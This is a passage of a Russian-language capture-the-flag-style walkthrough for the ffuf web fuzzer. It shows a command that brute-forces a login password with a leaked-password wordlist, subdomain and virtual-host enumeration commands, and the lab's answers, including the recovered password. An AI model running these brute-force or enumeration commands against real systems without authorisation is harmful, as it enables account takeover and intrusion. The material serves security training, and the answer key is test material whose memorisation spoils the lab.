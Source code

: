 Мы также можем использовать ffuf для атак методом перебора по словарному списку, например, для подбора паролей на 
странице аутентификации. 

Команда для Q3

`$ ffuf -u http://MACHINE_IP/sqli-labs/Less-11/ -c -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded'
`
Здесь нам нужно использовать метод POST (указанный с помощью -X) и предоставить данные POST (с помощью -d), где мы 
включаем FUZZключевое слово вместо пароля. 

Нам также необходимо указать пользовательский заголовок, поскольку ffuf не устанавливает этот заголовок типа 
содержимого автоматически, как это делает curl.-H 'Content-Type: application/x-www-form-urlencoded' 

### Ответьте на вопросы ниже
Какой параметр вы нашли?
```commandline
id
```
Какой самый высокий допустимый идентификатор?
```commandline
14
```
Какой пароль у Дамми?
```commandline
p@ssword
```
## Задание 6
ffuf может быть не столь эффективен, как специализированные инструменты, когда дело касается перечисления поддоменов, но это возможно.

```commandline
$ ffuf -u http://FUZZ.mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

```
Некоторые поддомены могут не разрешаться DNS-сервером, который вы используете, и разрешаться только из локальной сети цели их частными DNS-серверами. Поэтому некоторые виртуальные хосты (vhosts) могут существовать с частными поддоменами, поэтому предыдущая команда их не находит. Чтобы попытаться найти частные поддомены, нам придется использовать заголовок HTTP Host , так как эти запросы могут быть приняты веб-сервером.
Примечание : виртуальные хосты (vhosts) — это название, используемое Apache httpd, но для Nginx правильным термином будет Server Blocks .

Вы можете сравнить результаты, полученные с помощью прямого перечисления поддоменов и перечисления vhost:
```commandline
$ ffuf -u http://FUZZ.mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 0
$ ffuf -u http://mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.mydomain.com' -fs 0

```
